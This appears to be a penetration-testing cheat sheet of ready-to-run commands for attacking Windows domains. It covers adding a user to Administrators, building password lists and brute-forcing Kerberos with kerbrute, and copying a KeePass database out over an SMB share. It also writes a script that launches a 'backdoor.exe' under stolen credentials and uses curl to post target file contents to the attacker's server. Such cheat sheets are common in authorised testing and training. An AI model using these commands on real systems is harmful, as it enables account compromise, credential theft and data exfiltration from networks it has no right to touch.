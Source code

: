 Elevate privileges of a user you have access to with a single command:

```bash
Add-LocalGroupMember -Group Administrators -Member ariah
```

Custom password list:

```bash
cewl -g --with-numbers -d 20 $url |grep -v CeWL > custom-wordlist.txt
cat users.txt >> custom-wordlist.txt
echo "summer\nwinter\nspring\nfall\n$dom" >> custom-wordlist.txt
hashcat --stdout -a 0 -r ~/repos/offsec/customizations/bdg.rule custom-wordlist.txt | awk '!a[$0]++ {print $0}' >> custom-passwords.txt

hashcat --stdout -a 0 -r /usr/share/hashcat/rules/best64.rule pass.txt > pass-best64.txt
hashcat --stdout -a 0 -r /usr/share/hashcat/rules/bdg.rule pass.txt > passwords.txt
awk 'length($0) >= 7' passwords.txt > tmp_passwords.txt && awk 'NR==FNR {a[$1]; next} {for (i in a) print $1 ":" i}' tmp_passwords.txt users.txt | grep -P '[A-Z]' | grep -P '[^a-zA-Z0-9]' > combined.txt && rm tmp_passwords.txt
cat combined.txt| /opt/kerbrute bruteforce -d $dom --dc $ip -t 10 - 
```

Transfer files.

```bash
impacket-smbserver -smb2support newShare . -username test -password test
net use z: \\192.168.49.140\newShare /u:test test
copy z:\PowerUpSQL.ps1 .
copy Database.kdbx z:\
```

Execute powershell file non-interactively.

```bash
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File file.ps1
```

Run le as another user with powershell.

```bash
echo $username = '$target' > runas.ps1
echo $securePassword = ConvertTo-SecureString '$targetPass' -AsPlainText -Force >> runas.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword >> runas.ps1
echo Start-Process C:\Users\User\AppData\Local\Temp\backdoor.exe -Credential $credential >> runas.ps1
```

Send file contents of file on target to your own server.

```bash
curl --data @/tmp/output http://$myip:8080/
```

Find process running on port.

```bash
sudo lsof -i :2345
kill -9 pid

netstat -a -b # Not specific port
Get-Process -Id (Get-NetTCPConnection -LocalPort port).OwningProcess
Get-NetTCPConnection -LocalPort 8080 | Select-Object -Property OwningProcess | Get-Process
```
